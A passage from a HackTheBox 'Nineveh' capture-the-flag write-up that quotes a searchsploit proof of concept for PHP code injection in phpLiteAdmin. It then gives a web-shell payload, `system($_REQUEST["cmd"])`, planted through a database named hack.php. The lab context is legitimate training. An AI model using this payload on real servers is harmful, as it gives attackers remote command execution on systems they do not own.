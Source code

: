 # Exploit

Recall that the `searchsploit` had an interesting exploit called `Remote PHP Code Injection`. Lets check it out.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# searchsploit -x 24044   
...
Proof of Concept:

1. We create a db named "hack.php".
(Depending on Server configuration sometimes it will not work and the name for the db will be "hack.sqlite". Then simply try to rename the database / existing database to "hack.php".)
The script will store the sqlite database in the same directory as phpliteadmin.php.
Preview: http://goo.gl/B5n9O
Hex preview: http://goo.gl/lJ5iQ

2. Now create a new table in this database and insert a text field with the default value:
<?php phpinfo()?>
Hex preview: http://goo.gl/v7USQ

3. Now we run hack.php
...
```

So according to the proof of concept, we have to do the following:

1.  Create a new database
2.  Create a new table in the database with a default value `<?php echo system($_REQUEST ["cmd"]); ?>`
3.  View the database to execute the code
